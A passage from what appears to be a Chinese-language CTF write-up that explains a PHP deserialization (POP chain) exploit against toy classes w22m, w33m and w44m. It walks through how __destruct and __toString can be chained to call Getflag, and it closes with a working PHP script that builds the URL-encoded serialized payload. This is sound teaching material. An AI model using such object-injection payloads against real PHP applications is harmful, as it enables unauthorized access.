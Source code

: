  直接调用 `w44m::Getflag()` 方法。

------

### **Step 4：w44m::Getflag 执行**

`Getflag` 方法内容：

```
public function Getflag(){
    if($this->admin === 'w44m' && $this->passwd ==='08067'){
        include('flag.php');
        echo $flag;
    }else{
        echo 'nono';
    }
}
```

关键点解析

### ① 为什么要用 `w22m::__destruct`

- 析构函数 `__destruct` **自动触发**，不需要显式调用。
- 我们利用它 `echo $this->w00m`，间接触发对象的 `__toString`。

### ② 为什么要用 `w33m::__toString`

- `__toString` 会在对象被当作字符串时自动调用。
- 它可以动态调用 `$this->w00m->{$this->w22m}()`，非常适合执行任意方法。

### ③ 为什么要伪造私有/受保护属性

- `w44m::Getflag` 检查了私有属性 `$admin` 和受保护属性 `$passwd`。
- 在 PHP 序列化中，私有属性被编码为 `\0类名\0属性`，受保护属性被编码为 `\0*\0属性`。
- 伪造时必须严格遵循这个命名格式，否则属性赋值不会生效。

```php
<?php
class w44m{
    private $admin = 'w44m';    // 修改成目标值
    protected $passwd = '08067';
}

class w33m{
    public $w00m;
    public $w22m;
}

class w22m{
    public $w00m;
}

// 构建对象链
$w44m = new w44m();

$w33m = new w33m();
$w33m->w00m = $w44m;
$w33m->w22m = 'Getflag';

$w22m = new w22m();
$w22m->w00m = $w33m;

// 序列化
echo urlencode(serialize($w22m));
```
